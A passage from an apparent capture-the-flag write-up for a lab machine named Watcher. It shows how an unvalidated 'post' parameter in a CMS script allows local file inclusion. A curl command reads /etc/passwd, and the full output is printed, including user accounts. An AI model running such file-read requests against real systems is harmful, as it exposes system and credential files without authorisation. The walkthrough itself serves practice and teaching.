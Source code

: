 The web service hosts a CMS with 3 posts. The links are as follows:

* http://10.10.85.119/post.php?post=striped.php
* http://10.10.85.119/post.php?post=round.php
* http://10.10.85.119/post.php?post=bunch.php

It seems there is no control on the `post` parameter sent to the `post.php` script. Indeed, we can read arbitrary files:

~~~
kali@kali:/data/Watcher$ curl -s http://10.10.85.119/post.php?post=/etc/passwd

[REDACTED]

<div class="row">
 <div class="col-2"></div>
 <div class="col-8">
  root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
will:x:1000:1000:will:/home/will:/bin/bash
ftp:x:111:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftpuser:x:1001:1001:,,,:/home/ftpuser:/usr/sbin/nologin
mat:x:1002:1002:,#,,:/home/mat:/bin/bash
toby:x:1003:1003:,,,:/home/toby:/bin/bash
 </div>
</div>

</main>

<footer class="text-muted">
  <div class="container">
    <p class="float-right">
      <a href="#">Back to top</a>
    </p>
    <p>&copy; Corkplacemats 2020</p>
  </div>
</footer>
</html>
~~~